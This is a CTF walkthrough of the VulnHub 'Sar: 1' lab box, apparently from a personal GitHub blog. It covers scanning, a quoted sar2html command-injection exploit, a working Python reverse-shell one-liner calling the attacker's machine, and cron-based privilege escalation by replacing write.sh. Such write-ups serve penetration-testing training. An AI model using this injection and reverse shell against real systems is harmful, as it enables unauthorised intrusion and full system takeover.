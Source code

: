 
|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Sar: 1**

Sar is an OSCP-Like VM with the intent of gaining experience in the world of penetration testing.  It is a Linux box and released on Feb 15, 2020.

Download : [Sar: 1](https://www.vulnhub.com/entry/sar-1,425/)  
Format   : VirtualBox (OVA)  
DHCP     : Enabled  

Since the ```netdiscover``` not working properly at my Kali 2020.1, I use ```nmap``` instead to get the IP address of the Sar:1 box which is on ```10.0.2.18```.  My Kali box is on ```10.0.2.24```.

```bash
samiux@kali:~$ nmap 10.0.2.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:17 HKT
Nmap scan report for 10.0.2.1
Host is up (0.00033s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 10.0.2.2
Host is up (0.0011s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
631/tcp open  ipp

Nmap scan report for 10.0.2.18
Host is up (0.0012s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
80/tcp open  http

Nmap scan report for 10.0.2.24
Host is up (0.0015s latency).
All 1000 scanned ports on 10.0.2.24 are closed

Nmap done: 256 IP addresses (4 hosts up) scanned in 3.37 seconds
```

Run ```nmap``` for the port scan on the Sar:1 box.

```bash
samiux@kali:~$ nmap -A -p- 10.0.2.18
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-09 22:19 HKT
Nmap scan report for 10.0.2.18
Host is up (0.00094s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.74 seconds
```

The scan reports only port 80 is opened.  Thus, ```gobuster``` is used for the directories of the box.

```bash
samiux@kali:~$ gobuster dir -u http://10.0.2.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.18
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,txt
[+] Timeout:        10s
===============================================================
2020/03/09 22:20:54 Starting gobuster
===============================================================
/index.html (Status: 200)
/robots.txt (Status: 200)
/phpinfo.php (Status: 200)
/server-status (Status: 403)
===============================================================
2020/03/09 22:26:48 Finished
===============================================================
```

Open the ```Firefox``` to browse on the ```10.0.2.18```.  Then browse ```robots.txt``` also.

[](https://github.com/samiux/images/blob/master/sar1/sar-001.png)  

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-002.png)  

The ```robots.txt``` shows ```sar2HTML```.  Browse to it and it shows sar2html application.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-003.png)  

Conduct a ```searchsploit``` on Kali box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-004.png)  

The content of the result is :

```bash
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen.
```

Click on ```NEW``` on the left hand side and it shows the url is ```http://10.0.2.18/sar2HTML/index.php?plot=NEW```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-005.png)  

Test it with ```;id``` and found it can execute command ```id```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-006.png)  

After several tries and errors, it is confirmed that ```python3``` and ```bash``` are installed on the box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-007.png)  

## **Reverse shell and user.txt**

Places the following python3 command on the url.

```bash
;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.24",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

And run the listener at another terminal.

```bash
nc -lvp 4444
```

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-008.png)  

I found out that ```finally.sh``` and ```write.sh``` at ```/var/www/html``` of the box.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-009.png)  

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-010.png)  

After a search on ```/home/love/Desktop```, I found the ```user.txt``` key.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-011.png)  

## **Reverse shell and root.txt**

Back to the ```finally.sh``` and ```write.sh```.  After a search, I found ```/etc/crontab``` which runs ```finally.sh``` on every 5 minutes.  However, I cannot see ```gateway``` at ```/tmp``` after 5 minutes.

After thinking of a while, I decided to replace the ```write.sh``` with my own ```write.sh```.  I prepared the ```write.sh``` at ```/var/www/html``` of my Kali box and then starts the Apache2.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-012.png)  

Download my own copy of ```write.sh``` to the box and makes it executable.  Prepare another listener at port 7777 on Kali.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-013.png)  

After 5 minutes or so, I got the reverse shell and the ```root.txt``` is found on ```/root```.

[](https://raw.githubusercontent.com/samiux/images/master/sar1/sar-014.png)  

Root is dancing!

## **Final thought**

This Capture The Flag (CTF) is based on a realistic vulnerability.  To get the ```root.txt``` is however a little bit tricky.  Anyway, it is a very good box to play with.  Recommended.

Samiux  
OSCE  OSCP  OSWP  
Mar 10, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

